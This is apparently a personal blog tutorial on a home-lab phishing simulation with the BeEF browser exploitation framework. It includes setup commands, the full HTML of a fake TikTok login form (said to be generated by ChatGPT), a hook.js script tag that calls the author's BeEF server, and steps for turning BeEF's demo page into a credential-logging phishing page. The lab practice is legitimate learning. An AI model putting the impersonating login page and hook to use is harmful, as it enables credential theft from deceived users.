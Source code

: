 ```yaml
---
layout: post
title: "Beef XSS"
date: "2023-12-01"
published: true
video: 890690983
---
```


Beef XSS, short for Browser Exploitation Framework, is a powerful tool used by ethical hackers and security professionals to test the vulnerability of web applications. It allows security experts to assess the security of a website by simulating real-world attacks that exploit vulnerabilities in the user's browser.

The primary goal of a Beef XSS attack is to inject malicious scripts into web pages that are then executed by the victim's browser. Unlike traditional XSS attacks, Beef XSS goes beyond stealing cookies or session tokens; it enables attackers to take control of the victim's browser and use it as a platform for launching further attacks.

This guide outlines steps to perform ethical hacking and phishing simulations using Kali Linux, Beef XSS, and VMware. The project involves assessing web application vulnerabilities and simulating phishing attacks.

In the guide we will be going over the following, Beef XSS, changing the Butcher page, and sending my phishing email impersonating a TikTok influencer.
For this example, I will be using kali Linux that I installed onto my MacBook, with the target browser my on VMware.

## I. Setting Up Beef XSS

**Step 1: Beef Install**

***Update the system***  

```markdown
sudo apt-get update && sudo apt-get upgrade 
```
***Install Beef-XSS*** 

```markdown
sudo apt install beef-XSSall Beef XSS “
```

**step 2: config –**

***Open the Beef config.yaml file*** 

```markdown
sudo nano /etc/beef-xss/config.yaml
```
***Update credentials and set the host for HTTP.***

***Save and exit (Ctrl + X, then Y).***

**Step 3:  operating** 

```markdown
Sudo ./ beef
```

After it starts go to the Ui panel a link should appear or it will automatically load for you.

<br>

## II. Phishing Simulation

Now for my example Instead of creating a separate html page and having the target need to open our html page or redirect them to the butcher site, we are going to edit the butcher page to fit our needs and send out a phishing email to ourselves. 

NOTE: because we are editing the butcher page we will be able to log all inputs and activity while the target is on our page we will also be able to send this email to anyone on our network and redirect them to our hook off of beefs already running Apache server.
For my next part I will  be using my already fake phishing emails directed at small business impersonating a tic Tok influencer. 

I asked chat gpt to create me a simple login page similar to TikTok’s for my personal website, it did not disappoint.

```markdown

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tik Tok</title>
    <style>
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background-color: #fff;
            text-align: center;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }

        .login-container {
            max-width: 400px;
            width: 100%;
            padding: 20px;
            box-sizing: border-box;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }

        img {
            width: 100px;
            margin-bottom: 20px;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            box-sizing: border-box;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        button {
            background-color: #00a4ef;
            color: #fff;
            padding: 10px 15px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }

        button:hover {
            background-color: #0077cc;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="tik_tok.jpg" alt="TikTok Logo">
        <h2>Login</h2>
        <form action="your_login_handler.php" method="post">
            <input type="text" id="username" name="username" placeholder="Username" required>
            <input type="password" id="password" name="password" placeholder="Password" required>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>

```

I currently have the following hook.js script enabling this page to reach out and talk to my beef server the following script gets place inside the head tag on our html page.

```markdown
<script src="http://192.168.4.97:3000/hook.js"></script>
```

Here is the following video on how to add our new page and replace the butcher page.
The process is fairly simple my video is at double speed, with the most important being.

- Use elevated privileges to go into beefs extension directory 

```markdown
sudo su
```
Index.Html in the butcher directory is the page we want to edit the full file path is as follows to get their you need to a super user.

```markdown
Cd /usr/share/beef-xss/extensions/demos/html/butcher
```

Note: There is one script we wish to keep in the index.html page                                            

```markdown
<script src="jquery-1.12.4.min.js"></script>                                                                                       
```
this script handles the events and logs it back to the beef logs monitoring everything we do on our page, The second important part is to remove our address from our own hook.js script in our header because we are now in the root directory and do not need to let beef know were to go. Our new script should look like  

The rest of the video quickly goes over sending the hook to my VMware station from my machine, and shows the same java code being used in the butcher page to log our credentials and monitor our activity while on the page, then runs thru a couple of examples with my fishing email I made for my other project


<br>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/890861426?badge=0&amp;autopause=0&amp;quality_selector=1&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="beef Project - Made with Clipchamp"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script